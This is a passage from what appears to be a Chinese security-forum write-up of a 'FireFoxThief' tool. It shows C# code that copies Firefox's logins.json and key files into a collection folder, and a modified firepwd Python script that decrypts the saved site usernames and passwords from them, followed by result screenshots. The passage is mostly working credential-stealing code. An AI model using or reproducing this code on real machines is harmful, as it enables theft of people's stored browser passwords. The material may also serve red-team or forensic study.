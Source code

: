 ```php
    bool isrewrite = true;
    File.Copy(firefox_json_path, json_file_path_cuurent, isrewrite);

    string firefox_key_path_cuurent = UserFolder + "\\" + old_firefox_key;
    StreamWriter firefox_key_cuurent = File.CreateText(firefox_key_path_cuurent);
    firefox_key_cuurent.Close();
    File.Copy(firefox_old_key_path, firefox_key_path_cuurent, isrewrite);
}
```

执行效果

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-9013b620229622f5230fc2781bcf646803f6bdf7.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-8eb23b002a57c5ce214ee33a8ccb86bd56cbdd1d.png)

0x05 解析密码
=========

这里改的firepwd来自动解析我们的FireFoxInfo文件夹。修改下传参即可

```php
target_path = []
dir = "C:\\Users\\Administrator\\Desktop\\c#\\FireFoxThief\\FireFoxThief\\FireFoxThief\\bin\\Release\\FireFoxInfo\\"
for root, dirs, files in os.walk(dir):
    for file in files:
        path = os.path.join(root,file)
        if("logins.json" in os.path.join(root,file)):
            path = path.replace("logins.json","")
            target_path.append(path)

for i in target_path:
  print(i)
  key, algo = getKey(  options.masterPassword.encode(), Path(i) )
  if key==None:
    sys.exit()
  #print(hexlify(key))
  logins = getLoginData(i)
  if len(logins)==0:
    print ('no stored passwords')
  else:
    print ('decrypting login/password pairs' )
  if algo == '1.2.840.113549.1.12.5.1.3' or algo == '1.2.840.113549.1.5.13':  
    for i in logins:
      assert i[0][0] == CKA_ID
      print ('%20s:' % (i[2]),end='')  #site URL
      iv = i[0][1]
      ciphertext = i[0][2] 
      print ( unpad( DES3.new( key, DES3.MODE_CBC, iv).decrypt(ciphertext),8 ), end=',')
      iv = i[1][1]
      ciphertext = i[1][2] 
      print ( unpad( DES3.new( key, DES3.MODE_CBC, iv).decrypt(ciphertext),8 ) )
      print("\r\n")
```

最后效果。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-73d1703d169fdd99a677022b3f6cae98368d6239.png)